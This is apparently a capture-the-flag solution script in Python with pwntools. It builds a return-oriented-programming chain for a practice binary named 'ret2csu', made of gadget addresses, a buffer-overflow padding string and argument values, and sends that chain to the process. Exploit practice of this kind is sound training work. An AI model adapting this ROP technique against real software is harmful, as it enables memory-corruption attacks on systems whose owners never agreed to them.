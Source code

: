 Final script:

```python
from pwn import *

arg1 = 0xdeadbeefdeadbeef
arg2 = 0xcafebabecafebabe
arg3 = 0xd00df00dd00df00d


pop_rdi = 0x4006a3 # pop rdi ; ret
pop_rsi = 0x4006a1 # pop rsi ; pop r15 ; ret

mov_rdx_and_call = 0x400680
pop_ret_ptr = 0x601028

pop_rbx_rbp_r12 = 0x40069a

add_rbp = 0x4005e8 # add dword ptr [rbp - 0x3d], ebx ; nop dword ptr [rax + rax] ; ret
pop_rbp = 0x400588 # pop rbp ; ret

ret2win = 0x400510

ret = 0x4006a4

send_str = b'a'*40 + p64(ret)

send_str += p64(pop_rbx_rbp_r12) + p64(pop_rbp) + b'a'*40
send_str += p64(pop_rbp) + p64(pop_ret_ptr + 0x3d)
send_str += p64(add_rbp)

send_str += p64(pop_rbx_rbp_r12) + p64(pop_ret_ptr // 8) + b'a'*8 + p64(pop_ret_ptr % 8) + p64(arg1) + p64(arg2) + p64(arg3)
send_str += p64(mov_rdx_and_call)
send_str += p64(pop_rdi) + p64(arg1)
send_str += p64(ret2win)


chal = process('./ret2csu')


f = open('fake_stdin','wb')
f.write(send_str)
f.close()


print(chal.recvuntil(b'>'))
chal.sendline(send_str)
print(chal.recvall())
```